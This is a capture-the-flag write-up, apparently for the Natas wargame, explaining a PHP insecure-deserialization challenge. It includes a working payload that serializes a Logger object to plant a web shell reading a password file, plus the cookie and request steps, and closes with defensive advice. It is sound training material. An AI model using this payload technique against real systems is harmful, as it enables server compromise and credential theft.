



# Natas Level 26 → 27

**Vulnerability:** PHP Object Injection through Insecure Deserialization
**Difficulty:** Hard
**Tools Used:** Browser, PHP, Firefox Storage Inspector
**OWASP Category:** A08:2021 – Software and Data Integrity Failures
**Attack Class:** Deserialization

---

### What the level gives you

The application provides a drawing tool that stores drawing information inside a cookie named `drawing`.

Source code reveals that cookie contents are processed using:

```php
unserialize(base64_decode($_COOKIE["drawing"]))
```

A Logger class exists with a destructor that writes attacker-controlled data to attacker-controlled files.


### Vulnerability theory

PHP deserialization vulnerabilities occur when untrusted serialized objects are reconstructed using `unserialize()`.

If an attacker can control serialized object properties, they can manipulate application behavior without directly invoking methods.

In this challenge, the Logger class contains a destructor:

```php
function __destruct()
```

that writes data to a file.

By crafting a malicious serialized object, the attacker can force the application to create a PHP file containing executable code.

This is known as Property Oriented Programming (POP).

### Source code analysis

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __destruct(){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }
}
```

The destructor blindly trusts object properties.

If an attacker controls:

```text
$logFile
$exitMsg
```

they can write arbitrary content to arbitrary locations.

Since the object originates from:

```php
unserialize(base64_decode($_COOKIE["drawing"]))
```

full property control is possible.

### Approach

After reviewing the source code, I focused on the deserialization sink.

The drawing cookie was decoded and unserialized without validation. The Logger destructor immediately stood out because it performed file writes using object properties.

I generated a serialized Logger object locally, configured it to create a PHP file under the image directory, and inserted PHP code that would print the next password.

The resulting base64 payload was placed into the drawing cookie.

When the application deserialized and destroyed the object, the PHP shell was created.

Accessing the generated file revealed the next level password.

### Exploitation

#### Stage 1 — Generate payload

```php
<?php

class Logger{
    private $logFile = "img/shell.php";
    private $initMsg = "";
    private $exitMsg =
        "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
}

echo base64_encode(serialize(new Logger));
```

#### Stage 2 — Set drawing cookie

```text
drawing=<base64_payload>
```

#### Stage 3 — Trigger deserialization

```text
Refresh page.
```

Destructor executes automatically.

#### Stage 4 — Access shell

```http
GET /img/shell.php
```

Result:

```text
natas27 password displayed
```

### Screenshot





### Real-world relevance

Unsafe PHP deserialization has been responsible for numerous critical vulnerabilities across major PHP ecosystems.

Many historical CVEs in CMS platforms, frameworks, and plugins have allowed remote code execution through gadget chains triggered during object reconstruction.

This class of vulnerability routinely receives critical severity ratings because it often leads directly to server compromise.

### Defender's perspective

Avoid `unserialize()` on untrusted data.

Use JSON serialization whenever possible:

```php
json_decode()
```

If object reconstruction is unavoidable, use:

```php
unserialize($data, ["allowed_classes" => false]);
```

File-writing functionality should never be exposed through object destructors.

SOC monitoring should alert on unexpected PHP file creation inside upload or image directories.

### What I'd do differently

A POP-chain visualization diagram would make the exploitation path easier to understand during future reviews.